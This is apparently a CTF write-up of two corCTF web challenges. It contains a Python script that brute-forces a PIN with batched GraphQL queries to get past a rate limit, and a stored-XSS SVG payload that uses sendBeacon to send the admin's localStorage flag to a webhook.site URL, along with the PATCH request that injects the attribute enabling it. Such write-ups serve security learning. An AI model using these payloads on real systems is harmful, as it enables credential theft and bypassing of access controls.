

## web/force
118 solves 

In this challenge we are given a basic website which allows us to execute GraphQL queries. The goal here is to provide the correct pin in order to fetch the flag. The pin is a random integer between 0 and 100,000



The roadblock here is that we can only send 10 requests in a minute. To bypass we can use [batched queries](https://lab.wallarm.com/graphql-batching-attack/) in graphql to brute force the pin. 


The script to get the flag -

```python
import requests

url = "http://localhost:8000"
# url = "https://web-force-force-899269d54e3ec7ab.be.ax/"

def split(a, n):
    k, m = divmod(len(a), n)
    return (a[i*k+min(i, m):(i+1)*k+min(i+1, m)] for i in range(n))

def make_payload(start, end):
    data = "query {"
    for i in range(start, end):
        data += f"f{i}: flag(pin:{i})\n"
    data += "}"

    return data

ints = split(list(range(0, 10**5)), 10)

for l in ints:
    data = make_payload(l[0], l[-1])
    r = requests.post(url, data=data, headers={'Content-Type': 'text/plain'})
    if not r.ok:
        print("Request too large. Range = {start}, {end}")
        continue
    resp = r.json()
    s = set(list(resp.values())[0].values())
    print(s)
```

Output - 

```
{'Wrong!'}
{'Wrong!'}
{'corctf{S                T                  O               N                   K                 S}', 'Wrong!'}
{'Wrong!'}
{'Wrong!'}
{'Wrong!'}
{'Wrong!'}
{'Wrong!'}
{'Wrong!'}
{'Wrong!'}
```

## web/frogshare
33 solves

In this challenge we have a react based site where we can share svg images with the admin. The goal here is to perform XSS on admin to fetch the flag from local storage.  


The application uses `[external-svg-loader](https://www.npmjs.com/package/external-svg-loader)` package to load the SVGs in the webpage. By default this will [strip all javascript](https://github.com/shubhamjain/svg-loader#2-enable-javascript) in the svg but we can enable it by setting attribute `data-js="enabled"` in the svg tag.

The form to submit svg only has client-side validation and saves the svgProps json directly to the db without any server side validation when we send the api request. 


Another issue with the application is that it spreads the svgProps instead of just selecting height, width, viewbox. Therefore, we can inject any attributes in the svg tag.


With above information, all that’s left is to craft our SVG payload and send a request which adds the `data-js` attribute and allows us to perform XSS.

SVG Payload

```html
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
   navigator.sendBeacon("https://webhook.site/49055ec9-e90d-4226-8a6b-86ceeb594345?f=" + localStorage.getItem("flag"));
  </script>
</svg>
```

Update frog request with our svg and data-js attribute

```json
PATCH /api/frogs?id=27 HTTP/1.1
Host: frogshare.be.ax
Cookie: session=5c935345360d0...
Content-Type: application/json
Content-Length: 556

{
    "name": "some frog",
    "url": "data:image/svg+xml;base64,PHN2ZyB2ZXJzaW9uPSIxLjEiIGJhc2VQcm9maWxlPSJmdWxsIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciPgogIDxwb2x5Z29uIGlkPSJ0cmlhbmdsZSIgcG9pbnRzPSIwLDAgMCw1MCA1MCwwIiBmaWxsPSIjMDA5OTAwIiBzdHJva2U9IiMwMDQ0MDAiLz4KICA8c2NyaXB0IHR5cGU9InRleHQvamF2YXNjcmlwdCI+CiAgIG5hdmlnYXRvci5zZW5kQmVhY29uKCJodHRwczovL3dlYmhvb2suc2l0ZS80OTA1NWVjOS1lOTBkLTQyMjYtOGE2Yi04NmNlZWI1OTQzNDU/Zj0iICsgbG9jYWxTdG9yYWdlLmdldEl0ZW0oImZsYWciKSk7CiAgPC9zY3JpcHQ+Cjwvc3ZnPg==",
    "svgProps": {
        "height": 64,
        "width": 64,
        "data-js": "enabled"
    }
}
```

Flag - `corctf{M1nd_Th3_Pr0p_spR34d1ng_XSS_ThR34t}`
